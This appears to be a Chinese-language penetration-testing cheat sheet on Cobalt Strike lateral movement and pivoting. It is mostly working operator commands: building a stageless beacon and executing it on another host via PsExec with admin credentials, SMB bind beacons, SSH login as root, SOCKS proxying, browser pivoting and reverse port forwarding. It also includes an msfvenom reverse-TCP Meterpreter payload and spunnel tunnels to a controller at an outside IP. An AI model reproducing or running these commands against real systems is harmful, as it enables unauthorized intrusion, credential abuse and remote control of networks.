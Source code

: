  #### 权限机中转
	Pivoting ->Listener新建一条已有权限机器的监听器
![image](/assets/Pentest_Note/master/img/233.png)
![image](/assets/Pentest_Note/master/img/234.png)
![image](/assets/Pentest_Note/master/img/235.png)

	选择 Attacks->Packages->Windows Executable(Stageless) 
![image](/assets/Pentest_Note/master/img/236.png)

	上传生成的payload到已上线的目标机中，上传PsExec.exe
	beacon>shell C:\psexec.exe -accepteula \\10.1.1.105 -u administrator -p xxx -d -c C:\beacon.exe
![image](/assets/Pentest_Note/master/img/237.png)
 #### SMB_beacon
	新建监听器(bind)windows/beacon_smb/bind_pipe
	执行
	>psexec 机器名 ADMIN$/c$ bind
 #### SSH login
	>ssh 10.1.1.98:22 root admin
![image](/assets/Pentest_Note/master/img/238.png)

	在你的 teamserver 的给定端口上启动一个 SOCKS 服务器，通过指定的 Beacon 传输流量。 在 /etc/proxychains.conf 中设置 teamserver/port 配置以方便使用		
	beacon > socks [PORT]
	通过指定的 Internet Explorer 进程代理浏览器流量
	beacon > browserpivot [pid] [x86|x64]

	绑定到 Beacon 主机上的指定端口，并将任何传入的连接转发到被转发的主机和端口
	beacon > rportfwd [bind port] [forward host] [forward port]

	spunnel : 生成一个代理并创建一个到其控制器的反向端口转发隧道
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o /tmp/msf.bin
	beacon> spunnel x64 184.105.181.155 4444 C:\Payloads\msf.bin

	spunnel_local: 生成一个代理并创建一个反向端口转发，通过您的 Cobalt Strike 客户端隧道传输到其控制器
	然后你可以在你的 MSF multi handler上处理连接
	beacon> spunnel_local x64 127.0.0.1 4444 C:\Payloads\msf.bin